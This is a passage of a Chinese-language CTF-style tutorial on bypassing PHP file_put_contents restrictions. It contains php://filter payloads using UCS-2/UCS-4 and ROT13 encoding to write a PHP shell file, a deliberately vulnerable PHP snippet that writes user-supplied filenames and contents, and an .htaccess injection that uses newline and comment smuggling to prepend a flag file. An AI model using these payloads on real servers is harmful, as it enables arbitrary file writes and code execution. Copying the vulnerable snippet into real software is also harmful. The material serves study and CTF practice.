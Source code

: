 [![](https://p5.ssl.qhimg.com/t01af013f05a40185a9.png)](https://p5.ssl.qhimg.com/t01af013f05a40185a9.png)

**<a class="reference-link" name="UCS2/ROT13%E3%80%81UCS4/ROT13"></a>UCS2/ROT13、UCS4/ROT13**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t018ff83da74e24d9d3.png)

这里在自己测试的发现，使用UCS2或UCS4进行编码时，这个过程是识别空格的，但是到使用伪协议的时候需要进行反转解码，又无法识别空格，这就是为什么下面的payload要多加一个字符，可以自己测试一下就明白了。

```
php://filter/write=convert.iconv.UCS-2LE.UCS-2BE|string.rot13|x?&lt;uc cucvcsa(b;)&gt;?/resource=shell.php
#注意这里要补充一个字符，因为空格无法和任意一个字符搭配进行反转
```

[![](https://p1.ssl.qhimg.com/t018ae80391cf40878a.png)](https://p1.ssl.qhimg.com/t018ae80391cf40878a.png)

**UCS4/ROT13**

同样如此

```
php://filter/write=convert.iconv.UCS-4LE.UCS-4BE|string.rot13|x?&lt;xx cucvcuc(bsa&gt;?;)/resource=6.php
```

### <a class="reference-link" name="%E7%AC%AC%E4%B8%89%E7%A7%8D%E6%83%85%E5%86%B5"></a>第三种情况

```
&lt;?php
if(isset($_GET['content']))`{`
    $filename = $_GET['filename'];
    $content = $_GET['content'];
    file_put_contents($filename,$content . "\nxxxxxx");
`}`else`{`
    highlight_file(__FILE__);
`}`
```

这种考点一般的话是禁止有特殊起始符和结束符号的语言，如果不禁，直接写入PHP代码就可以执行了，后面的限制也就没有什么意义了，这类问题往往是需要想办法处理掉杂糅代码的。

**<a class="reference-link" name=".htaccess%E7%BB%95%E8%BF%87"></a>.htaccess绕过**

使用.htaccess文件绕过需要注意该文件是很敏感的，如果有杂糅代码，便会出现错误，导致无法操作，可以使用注释符来将杂糅代码给注释掉

```
?filename=.htaccess&amp;content=php_value auto_prepend_file D:\flag.php%0a%23\
```

[![](https://p1.ssl.qhimg.com/t01db2c1b4d213f34a2.png)](https://p1.ssl.qhimg.com/t01db2c1b4d213f34a2.png)



## 参考博客：
